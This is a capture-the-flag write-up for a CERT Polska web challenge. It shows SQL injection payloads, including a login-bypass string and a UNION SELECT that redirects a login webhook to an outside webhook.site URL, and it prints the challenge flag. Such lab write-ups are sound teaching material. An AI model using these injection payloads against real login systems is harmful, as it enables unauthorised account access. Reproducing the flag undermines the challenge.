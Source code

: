 # [web - e-PUŁAP](https://hack.cert.pl/challenge/e-pulap)

First things first, a SQL injection attempt: `' OR 1=1 -- `. I get a weird looking error `error:Could not resolve host: chat.evil-corporation.private` which ensures me that the field is indeed injectable, so I put there some nonsense like `' test` and get this error:
```
Fatal error
: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: syntax error at or near "test" LINE 1: ...name, webhook_login_url FROM users WHERE username = '' test' ^ in /var/www/html/login.php:47 Stack trace: #0 /var/www/html/login.php(47): PDO->query('SELECT username...') #1 {main} thrown in
```
which basically gives me SQL query. Based on that query I inject this sql code:
```sql
' union select 'test', 'https://webhook.site/2c96e78b-2e10-480e-9d7d-d8bb2f5ff76f' -- 
```
that impersonates `webhook_login_url` from database. Result:

![](image.png)

I enter the link into browser, it logs me in and gives me access to the flag url: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt

### Flag
`ecsc23{paswordless_is_the_future!}`
